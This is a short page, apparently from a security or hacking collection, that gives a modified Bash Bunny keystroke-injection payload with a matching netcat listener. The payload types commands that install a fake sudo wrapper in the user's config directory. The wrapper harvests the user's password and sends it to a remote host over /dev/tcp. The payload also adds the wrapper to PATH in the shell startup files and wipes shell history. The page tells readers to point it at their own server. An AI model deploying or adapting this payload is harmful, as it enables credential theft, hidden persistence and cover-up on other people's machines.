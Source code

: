 Payload originally designed by oXis for Bash Bunny.

Bash Bunny Payload page: https://github.com/hak5/bashbunny-payloads/tree/master/payloads/library/credentials/SudoBackdoor

Change example.com to your own domain or listening IP address and 1337 to your own port of choice.

```
REM Original Author: oXis
REM Modified by 5h@d0w
DELAY 2000
GUI space
DELAY 500
ALT F2
DELAY 500
BACKSPACE
DELAY 100
STRING terminal
ENTER
DELAY 3000
STRING mkdir -p ~/.config/sudo
ENTER
DELAY 100
STRING rm  ~/.config/sudo/sudo
ENTER
DELAY 100
STRING echo '#!/bin/bash
ENTER
STRING /usr/bin/sudo -n true 2>/dev/null
ENTER
STRING if [ $? -eq 0 ]
ENTER
STRING then
ENTER
STRING /usr/bin/sudo $@
ENTER
STRING else
ENTER
STRING echo -n "[sudo] password for $USER: "
ENTER
STRING read -s pwd
ENTER
STRING echo
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S true 2>/dev/null
ENTER
STRING if [ $? -eq 1 ]
ENTER
STRING then
ENTER
STRING echo "$USER:$pwd:invalid" > /dev/tcp/example.com/1337
ENTER
STRING echo "Sorry, try again."
ENTER
STRING sudo $@
ENTER
STRING else
ENTER
STRING echo "$USER:$pwd:valid" > /dev/tcp/example.com/1337
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S $@
ENTER
STRING fi
ENTER
STRING fi' > ~/.config/sudo/sudo
ENTER
DELAY 600
STRING chmod u+x ~/.config/sudo/sudo
ENTER
DELAY 800
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bash_profile
ENTER
DELAY 500
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bashrc
ENTER
DELAY 500
STRING history -c && rm .bash_history && exit
ENTER
DELAY 1000
GUI q
```

Use this bash script to listen on your server:

```
#!/bin/bash
while [ true ]
do
netcat -vv -lp 1337 >> passwd.txt
done
```